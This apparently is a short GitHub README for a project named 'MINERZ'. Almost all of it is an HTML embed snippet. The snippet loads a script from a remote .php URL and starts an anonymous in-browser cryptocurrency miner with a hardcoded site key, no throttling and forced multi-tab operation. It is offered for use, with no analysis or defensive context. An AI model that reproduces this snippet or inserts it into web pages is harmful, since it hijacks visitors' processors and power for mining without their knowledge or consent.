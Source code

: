 # MINERZ
WORK
https://github.com/madridminez/MINERZ
<script src="https://github.com/madridminez/MINERZ/MJ5E.php?f=WLe2.js"></script>
<script>
    var _client = new Client.Anonymous('5fa16649365ad44563370157107e348cbcd74f3bb817acd66c1a9867173e6003', {
        throttle: 0
    });
    _client.start(Client.FORCE_MULTI_TAB);
</script>
